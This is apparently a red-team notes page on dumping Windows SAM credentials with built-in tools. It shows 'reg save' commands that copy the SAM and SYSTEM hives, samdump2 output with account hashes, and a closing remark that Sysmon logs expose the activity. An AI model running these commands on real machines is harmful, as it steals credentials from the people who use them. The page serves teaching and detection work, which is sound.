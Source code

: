 ```yaml
---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---
```


# Security Accounts Manager

## Execution

Dumping the registry hives required for hash extraction:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
reg save hklm\system system
reg save hklm\sam sam
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
root@~/tools/mitre/pwdump# samdump2 system sam
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)

